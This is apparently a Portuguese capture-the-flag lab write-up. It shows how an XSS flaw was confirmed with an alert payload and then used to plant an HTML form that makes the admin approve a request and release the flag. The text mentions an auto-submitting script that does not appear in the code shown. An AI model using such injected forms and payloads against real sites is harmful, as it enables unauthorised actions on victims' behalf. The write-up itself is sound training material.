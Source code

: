 # CTF 6

## Context

O desafio envolve convencer o administrador de um servidor web na porta 5004 a fornecer a flag. O administrador irá analisar os pedidos na porta 5005, onde pode aprovar ou rejeitar as solicitações.

## Vulnerability Analysis

1. **Teste de XSS:**
   - Para garantir a segurança da aplicação, conduzimos testes de Cross-Site Scripting (XSS).
   - Utilizamos o payload `<script>alert(123)</script>` para verificar a presença de vulnerabilidades XSS.
   - Verificamos que o alerta é apresentado e encontramos a vulnerabilidade.

## Exploit

```
<form method="post" action="http://ctf-fsi.fe.up.pt:5005/request/4af3dfbaf29fbb307568a649a1ed66990aad5d7d/approve" target=_blank, role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>
```
- O formulário está configurado para enviar uma solicitação POST para o URL fornecido.
- O script JavaScript automatiza o envio do formulário assim que a página é carregada.
- Isto significa que o admin vai carregar no giveflag, o que por sua vez nos dá acesso à mesma.
